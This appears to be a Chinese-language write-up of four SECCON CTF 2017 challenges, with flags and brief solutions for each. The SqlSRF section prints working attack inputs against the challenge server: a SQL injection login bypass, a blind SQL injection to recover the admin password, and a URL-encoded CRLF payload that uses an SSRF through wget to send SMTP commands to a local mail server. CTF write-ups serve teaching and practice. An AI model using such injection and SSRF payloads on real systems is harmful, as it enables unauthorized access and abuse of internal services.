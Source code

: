 # SECCON CTF quals 2017

## Vigenere3d

就是 Vigenere cipher 而且 key 是回文

隨便寫個 script 就解出來了 ([solve.py](Vigenere3d/solve.py))

flag : SECCON{Welc0me_to_SECCON_CTF_2017}

## Ps-and-Qs

給兩把 public key

有共同質數 gcd 一下就解出來了 ([solve.py](Ps-and-Qs/solve.py))

flag : SECCON{1234567890ABCDEF}

## SHA-1-is-dead

SHA1 collision 但是要求兩個檔案的大小要介於 2017KiB ~ 2018KiB

那就把 google 的那兩個檔案拿來後面隨便接一些一樣的字串讓大小夠就好了

flag : SECCON{SHA-1_1995-2017?}

## SqlSRF

> The root reply the flag to your mail address if you send a mail that subject is "give me flag" to root.
> http://sqlsrf.pwn.seccon.jp/sqlsrf/

我們可以看到 index.cgi 的原始碼

這行有 sql injection `"SELECT password FROM users WHERE username='".$q->param('user')."';"`

看原始碼也可以知道他是用 sqlite

他會把 select 出來的東西跟 encrypt(param['pass']) 比較，一樣就可以登入了

另外，如果句選 Remember Me 的話，他會幫你把 encrypt(param['user']) 存在 cookie 裡面，然後幫你解密放在 user 的 input box ( 我們可以加解密任意字串 )

所以先得到 encrypt('oalieno') = '6102b0591250cea64f303ec4a9c6425f'

user 放 `' union select '6102b0591250cea64f303ec4a9c6425f' -- `

pass 放 `oalieno`

就可以順利登入了

![](https://i.imgur.com/EQqOS9M.png)

在 menu.cgi 我們可以按 `netstat -tnl` 但是不能用 `wget --debug -O /dev/stdout 'http://{}'` ( 需要 admin )

![](https://i.imgur.com/9q6DY8Q.png)

所以我們回過頭來用 sql blind injection 取得 admin 的密碼 ([solve.py](SqlSRF/solve.py))

密碼是 encrypt 過的 ( 長度 32 ) 同樣用 Remember Me 解密

admin password = decrypt(d2f37e101c0e76bcc90b5634a5510f64) = 'Yes!Kusomon!!'

成功用 admin 登入後就可以用 wget 發 request

剛剛用 netstat 可以看到 `127.0.0.1:25` 這台 local 的 SMTP server

直接 wget `127.0.0.1:25` 的話可以看到 SMTP server 會把我們的 http request 的每一行都當成 SMTP 的指令來看

![](https://i.imgur.com/a0Mdg7W.png)

那我們就用 `%0d%0a` 來下 SMTP 指令寄信給 `root`

```
127.0.0.1
HELO oalieno
MAIL From: <xxx@gmail.com>
RCPT To: <root>
DATA
Subject: give me flag
oalieno
.
:25/
```

把上面的東東做 urlencode 就可以了

final payload : `127.0.0.1%0D%0AHELO%20oalieno%0D%0AMAIL%20From%3A%20%3Cxxx%40gmail.com%3E%0D%0ARCPT%20To%3A%20%3Croot%3E%0D%0ADATA%0D%0ASubject%3A%20give%20me%20flag%0D%0Aoalieno%0D%0A.%0D%0A:25/`

然後就收到信了XD

![](https://i.imgur.com/OEwnXKM.png)

但是 flag 也被 encrypt 過，那就同樣用 Remember Me 解密

flag : SECCON{SSRFisMyFriend!}
